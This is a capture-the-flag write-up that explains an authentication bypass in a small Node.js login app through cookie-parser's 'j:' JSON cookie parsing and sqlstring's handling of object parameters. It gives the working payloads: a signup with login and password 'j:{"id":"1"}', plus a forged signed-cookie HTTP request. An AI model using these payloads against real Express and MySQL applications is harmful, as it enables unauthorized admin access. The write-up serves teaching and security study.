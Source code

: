 Login Page
===

A small node.js application containing only user creation and login pages.
The flag is displayed only for the administrator (user with id 1).
```js
    result = await db.awaitQuery("SELECT `id` FROM `users` WHERE `login` = ? AND `password` = ? LIMIT 1", [req.signedCookies.login, req.signedCookies.password])
    if (result.length === 1) {
        if(result[0].id === 1) {
            message = "Welcome admin. Your flag " + flag
```

After registration, the user's login and password is stored in a signed cookies.
```js
app.post('/signup', [ validator.body('login').isString().isLength({ max: 64 }).trim(), validator.body('password').isString().isLength({ max: 64 }) ], async (req, res) => {
  const db = await pool.awaitGetConnection()
  try {
    validator.validationResult(req).throw()
    result = await db.awaitQuery("SELECT `id` FROM `users` WHERE `login` = ?", [req.body.login])
    if (result.length != 0) 
      return res.render('signup', {error: 'User already exists'})
    result = await db.awaitQuery("INSERT INTO `users` (`login`, `password`) VALUES (?, ?)", [req.body.login, req.body.password])
    res.cookie('login', req.body.login, { signed: true })
    res.cookie('password', req.body.password, { signed: true })
```

The cookie parser supports writing objects to cookie values via the `j:{"json":"object"}` notation. At the same time, due to the incorrect parsing order, the string written to the signed cookie can be parsed as an object.

https://github.com/expressjs/cookie-parser/blob/e5862bdb0c1130450a5b50bc07719becf0ab8c81/index.js#L62-L65
```js
    // parse signed cookies
    if (secrets.length !== 0) {
      req.signedCookies = signedCookies(req.cookies, secrets)
      req.signedCookies = JSONCookies(req.signedCookies)
```

The mysql-await library used in the task uses [sqlstring](https://www.npmjs.com/package/sqlstring), which handles non-string parameters in queries in a very specific way by default.

https://github.com/mysqljs/sqlstring/blob/cd528556b4b6bcf300c3db515026935dedf7cfa1/lib/SqlString.js#L170-L184
```js
SqlString.objectToValues = function objectToValues(object, timeZone) {
  var sql = '';
  for (var key in object) {
    var val = object[key];
    if (typeof val === 'function') {
      continue;
    }
    sql += (sql.length === 0 ? '' : ', ') + SqlString.escapeId(key) + ' = ' + SqlString.escape(val, true, timeZone);
  }
  return sql;
};
```

```js
id = {"x":"y"}
sqlstring.format('select 1 from dual where id = ?', [id])
// select 1 from dual where id = `x` = 'y'
```

Thus, if objects are used in a prepared statement, this can change the selection conditions and, as a result, lead to authorization bypass.

**Solution**

Create user 
```
login=j:{"id":"1"}&password=j:{"id":"1"}
```
The following SQL query is generated during authorization
```sql
SELECT `id` FROM `users` WHERE `login` = `id` = '1' AND `password` = `id` = '1' LIMIT 1
```
Which returns the admin ID as a result.

Unfortunately, due to incorrect validation of signed cookies, there was a very simple unintended solution in the first version. In case the cookie signature of the value is invalid, but the entry format was correct `s:<value>.<signature>`. Values in `signedCookies` returns `false` instead of `undefined`, which, as a result, also changes the selection conditions and allows you to log in as an administrator.
```http
GET / HTTP/1.1
Host: login.volgactf-task.ru
Cookie: login=s:anything.anything; password=s:anything.anything;
```
```
SELECT `id` FROM `users` WHERE `login` = FALSE AND `password` = FALSE LIMIT 1
```